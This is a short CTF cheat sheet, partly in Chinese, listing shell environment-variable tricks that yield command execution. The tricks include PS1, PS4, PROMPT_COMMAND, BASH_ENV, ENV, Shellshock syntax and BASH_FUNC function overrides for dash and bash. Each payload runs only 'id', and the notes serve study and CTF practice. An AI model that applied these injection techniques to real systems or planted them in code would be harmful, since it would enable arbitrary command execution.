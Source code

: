 tags:: CTF/RCE, CTF/Shell

-
- # dash
	- ```shell
	  PS4='PS4 is worked $HOME Right?' dash -x -c "echo test"
	  PS1='`id`' dash
	  PS1='$(id)' dash
	  PROMPT_COMMAND='id' dash #退出dash的时候会执行
	  ```
- # bash
  id:: 64bbf5e5-6ddf-4ff6-9d7f-ba6bc9d95262
	- ```shell
	  BASH_ENV='$(id 1>&2)' bash -c 'echo hello'# shell_name为bash时触发
	  PROMPT_COMMAND='id' bash	#立即执行,因为每次换行后会换到一个新的bashshell
	  ```
	- shell shock
		- ```shell
		  TEST=() { :; }; id;
		  ```
	- `BASH_FUNC`
		- 原理
			- bash可以这样设置函数
				- ```shell
				  env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'
				  ```
			- 我们可以覆盖某些函数实现任意命令执行
				- ```shell
				  env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
				  ```
		- bash 4.2
			- ```shell
			  env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"
			  ```
		- bash 4.4+
			- ```shell
			  env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
			  ```
	- sh兼容模式
		- ```shell
		  ENV='$(id 1>&2)' sh -i -c "echo hello"
		  ```
-
- # 参考
	- https://www.cnblogs.com/h0cksr/p/16189733.html
	-